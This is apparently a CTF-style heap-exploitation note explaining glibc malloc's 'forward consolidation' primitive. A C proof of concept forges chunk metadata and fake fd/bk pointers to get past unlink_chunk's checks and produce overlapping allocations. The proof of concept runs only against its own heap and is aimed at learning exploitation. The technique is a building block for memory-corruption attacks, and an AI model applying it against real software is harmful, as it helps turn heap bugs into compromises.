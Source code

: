 ## forward consolidation

**Purpose:** We can have two separate chunks allocated to the same space

**Require:** Have an ability to change the metadata of the allocated chunks

**Mitigations need to bypass:** The malloc consolidates 2 chunks using `malloc_consolidate` function, but before consolidate them, malloc must unlink (use `unlink_chunk`) first. And there are two mitigations inside the `unlink_chunk` that we need to bypass

    - [prev_size](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1610-L1611)
    - [fd/bk](https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1616-L1617)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    long *victim, *consolidated_chunk, *chunk2;

    victim = malloc(0x410);
    consolidated_chunk = malloc(0x80);
    chunk2 = malloc(0x10); // Avoid top-chunk consolidate

    /* Setup consolidated_chunk->next prev_size & size fields */
    chunk2[-2] = 0x90;
    chunk2[-1] = 0x20;

    /* Create a FAKE main_arena */
    consolidated_chunk[8] = (long)&consolidated_chunk[-2];
    consolidated_chunk[9] = (long)&consolidated_chunk[-2];

    /* Create a FAKE fd/bk */
    consolidated_chunk[0] = (long)&consolidated_chunk[6];
    consolidated_chunk[1] = (long)&consolidated_chunk[6];

    free(victim);
    // After this, our victim chunk would be freed, and due to fwd consolidation it will be merged with the consolidated_chunk
    // This create an overlapping chunk on a 0x90 (include metadata) chunk
    long *new_chunk = malloc(0x410);
    long *overlaping_chunk = malloc(0x80);

    // Confirm again
    assert(overlaping_chunk == consolidated_chunk);

    return 0;
}
```

## Reference

- https://github.com/lieuhoaisa/CTFnotes/blob/main/heap/primitives/malloc/foward_consolidation/readme.md
- https://github.com/guyinatuxedo/Shogun/blob/main/pwn_demos/malloc/fwd_consolidation/readme.md

